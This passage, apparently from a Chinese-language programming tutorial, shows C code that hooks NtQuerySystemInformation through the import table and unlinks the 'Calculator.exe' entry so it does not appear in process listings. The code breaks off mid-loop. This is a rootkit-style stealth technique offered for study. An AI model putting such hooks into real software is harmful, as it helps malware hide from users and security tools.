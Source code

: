 ### 隐藏进程

- 要列出当前进程列表，调用地并不是类似之前显而易见的`Process32First`和`Process32Next`函数，而是位于`ntdll.dll`的`NtQuerySystemInformation`函数
- 编写`Fake_NtQuerySystemInformation`函数
    ```c
    // 需要添加的头文件
    #include <winternl.h>

    // winternl.h 中没有，需要手动添加的数据类型定义
    #define STATUS_SUCCESS  ((NTSTATUS)0x00000000L)
    typedef struct _MY_SYSTEM_PROCESS_INFORMATION
    {
        ULONG                   NextEntryOffset;
        ULONG                   NumberOfThreads;
        LARGE_INTEGER           Reserved[3];
        LARGE_INTEGER           CreateTime;
        LARGE_INTEGER           UserTime;
        LARGE_INTEGER           KernelTime;
        UNICODE_STRING          ImageName;
        ULONG                   BasePriority;
        HANDLE                  ProcessId;
        HANDLE                  InheritedFromProcessId;
    } MY_SYSTEM_PROCESS_INFORMATION, * PMY_SYSTEM_PROCESS_INFORMATION;

    HANDLE g_hHook_NtQuerySystemInformation = NULL;
    typedef NTSTATUS(__stdcall* LPFN_NtQuerySystemInformation)(
        IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
        OUT PVOID                   SystemInformation,
        IN ULONG                    SystemInformationLength,
        OUT PULONG                  ReturnLength
        );

    NTSTATUS WINAPI Fake_NtQuerySystemInformation(
        IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
        OUT PVOID                   SystemInformation,
        IN ULONG                    SystemInformationLength,
        OUT PULONG                  ReturnLength
    )
    {
        LPFN_NtQuerySystemInformation fnOrigin = (LPFN_NtQuerySystemInformation)GetIATHookOrign(g_hHook_NtQuerySystemInformation);
        NTSTATUS status = fnOrigin(SystemInformationClass,
            SystemInformation,
            SystemInformationLength,
            ReturnLength);
        if (SystemProcessInformation == SystemInformationClass && STATUS_SUCCESS == status)
        {
            // Loop through the list of processes
            PMY_SYSTEM_PROCESS_INFORMATION pCurrent = NULL;
            PMY_SYSTEM_PROCESS_INFORMATION pNext = (PMY_SYSTEM_PROCESS_INFORMATION)
                SystemInformation;
            do
            {
                pCurrent = pNext;
                pNext = (PMY_SYSTEM_PROCESS_INFORMATION)((PUCHAR)pCurrent + pCurrent->
                    NextEntryOffset);
                if (!wcsncmp(pNext->ImageName.Buffer, L"Calculator.exe", pNext->ImageName.Length))
                {
                    if (0 == pNext->NextEntryOffset)
                        pCurrent->NextEntryOffset = 0;
                    else
                        pCurrent->NextEntryOffset += pNext->NextEntryOffset;
                    pNext = pCurrent;
                }